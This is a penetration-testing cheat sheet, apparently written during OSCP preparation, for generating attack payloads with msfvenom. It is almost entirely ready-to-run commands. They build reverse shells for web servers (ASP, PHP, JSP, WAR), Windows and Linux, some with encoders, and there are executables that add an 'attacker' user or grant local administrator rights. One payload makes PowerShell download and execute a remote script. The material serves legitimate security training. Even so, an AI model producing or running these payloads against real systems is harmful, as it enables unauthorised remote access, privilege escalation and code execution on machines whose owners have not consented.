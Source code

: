 ```yaml
---
description: Generate payload with MSFvenom
---
```


# Generate Payload

### Listing

```bash
msfvenom -l payloads #Payloads
msfvenom -l encoders #Encoders
msfvenom -l platforms #Platforms
```

{% hint style="info" %}
**Note**: I created this page during my OSCP preparation. All payloads here are for gaining a reverse shell through Netcat, as Metasploit (or Meterpreter) is prohibited.
{% endhint %}

### Web Based Payload

ASP Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=1337 -f asp > asuka.asp
```

PHP Payload

```bash
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
echo "<?php" | cat - shell.php > temp && mv temp shell.php
```

JSP Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

WAR Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### Windows

Create User

```bash
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
```

Execute Command

{% code overflow="wrap" %}
```bash
msfvenom -a x86 --platform Windows \
-p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" \
-f exe > pay.exe
```
{% endcode %}

```bash
msfvenom -a x86 --platform Windows -p \
windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
```

Reverse Shell

* x86

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=1337 -f exe -o Remote.exe
```

* x64

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=4443 -f exe -o shell.exe
```

### Linux

* x86

```bash
msfvenom  -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=1337 \
-e x86/shikata_ga_nai -f elf > asuka-x86.elf
```

* x64

```bash
msfvenom -a x64 --platform linux -p linux/x64/shell_reverse_tcp \
LHOST=<IP> LPORT=1337 -e x64/xor_dynamic -f elf > asuka.elf
```

### MSFvenom Payload Creator (MSFPC)

[https://github.com/g0tmi1k/msfpc](https://github.com/g0tmi1k/msfpc)
